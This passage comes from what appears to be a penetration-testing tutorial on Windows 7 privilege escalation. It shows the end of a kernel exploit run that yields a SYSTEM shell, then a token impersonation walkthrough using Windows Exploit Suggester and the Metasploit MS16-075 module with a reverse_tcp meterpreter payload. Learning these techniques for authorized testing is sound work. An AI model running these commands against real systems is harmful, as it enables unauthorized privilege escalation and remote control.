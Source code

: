 1. We can now run the exploit executable by running the following command on the target system:

        .\exploit.exe

    As highlighted in the following screenshot, the exploit executable requires the user to specify the target operating system, in our case the target operating system is Windows 7, as a result, we can execute the exploit by running the following command:

        .\exploit.exe 7

    After running the exploit with the operating system specified, it will take a few seconds to complete, after which we should have an elevated shell with NT AUTHORITY/SYSTEM privileges as shown in the following screenshot.

    ![whoami output](whoami-output.png "whoami output")

## Token Impersonation

Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using DuplicateToken(Ex). The token can then be used with ImpersonateLoggedOnUser to allow the calling thread to impersonate a logged-on user's security context.

In this section, we will be exploring the process of performing a token impersonation attack.

For this section, our target system will be running Windows 7. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

We can begin the process by following the outlined procedures:

1. The first step will involve identifying any potential vulnerabilities that can be exploited through the Potato attack. This can be done through the use of the Windows Exploit Suggester script:

        ./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>

    As highlighted in the following screenshot, we are able to identify a token impersonation vulnerability.

    ![Token impersonation - windows exploit suggester output](token-impersonation-windows-exploit-suggester-output.png "Token impersonation - windows exploit suggester output")

1. Researching the MS16-075 vulnerability reveals a Metasploit module that can automate the token impersonation attack.

1. We can load the module in Metasploit by running the following command:

        use exploit/windows/local/ms16_075_reflection

1. After loading the module, you will need to configure the module options, this can be done by running the following commands:

        set payload /windows/x64/meterpreter/reverse_tcp
        set SESSION <SESSION-ID>

1. We can now run the module by running the following command:

        run

    If the module runs successfully, you should receive a new meterpreter session as shown in the screenshot below.
